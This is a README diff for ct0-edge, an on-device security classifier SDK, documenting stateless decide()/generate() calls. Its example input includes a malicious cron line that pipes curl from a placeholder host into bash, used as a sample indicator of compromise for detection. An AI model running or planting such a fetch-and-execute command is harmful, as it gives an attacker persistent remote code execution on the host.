

Before and after one commit to eduardoworrel/ct0-edge, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: clarify decide()/generate() are stateless single-turn (no session); fix misleading gate example; drop phantom Chat
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01W5MsL4GKdHKFJjsbA1kqS6

````diff
--- a/README.md
+++ b/README.md
@@ -4,8 +4,11 @@ On-device SDK (browser, Node, edge) for **CT0 / alias3-micro-1026** running as O
 [onnxruntime-web](https://onnxruntime.ai/) (WebGPU / WASM). One model, both modes:
 
 - **System 1 — `decide()`**: a yes/no security decision in a single forward (reads logits, no tokens generated).
-- **System 2 — `generate()` / `Chat`**: autoregressive generation (streaming).
+- **System 2 — `generate()`**: autoregressive generation (streaming).
 - **Gate**: escalate from System 1 to System 2 when confidence is below a threshold.
+
+Both are **stateless, single-turn**: each call builds its own prompt from a fresh state — there is no
+conversation/session carried between calls. When you escalate to System 2, pass the context explicitly.
 
 By default it drives the **decode-only recurrent graph** `onnx/model_q4f16_decode.onnx` (~2.73 GB) — the
 one that fits the browser's ~4 GB WASM cap and decodes at O(1)/token. **Requires `onnxruntime-web` ≥ 1.30**
@@ -27,14 +30,17 @@ import { CT0 } from "ct0-edge";
 
 const ct0 = await CT0.load({ repo: "eduardoworrel/ct0-alias3-micro-onnx", onStatus: console.log });
 
+const state = "path: /etc/cron.d/x\ncontent: * * * * * curl http://x/y | bash";
+const question = "Is this a suspicious indicator of compromise?";
+
 // System 1 — decision (one forward, reads logits)
-const p = await ct0.decide("path: /etc/cron.d/x\ncontent: * * * * * curl http://x/y | bash",
-                           "Is this a suspicious indicator of compromise?");
+const p = await ct0.decide(state, question);
 console.log("P(yes) =", p);
 
-// Gate + System 2
+// Gate → System 2. Independent call: generate() doesn't see the decide() above,
+// so pass the context again.
 if (Math.abs(2 * p - 1) < 0.6) {
-  for await (const piece of ct0.generate("Explain the reasoning.")) process.stdout.write(piece);
+  for await (const piece of ct0.generate(`${question}\n${state}\nExplain.`)) process.stdout.write(piece);
 }
 ```
 
````
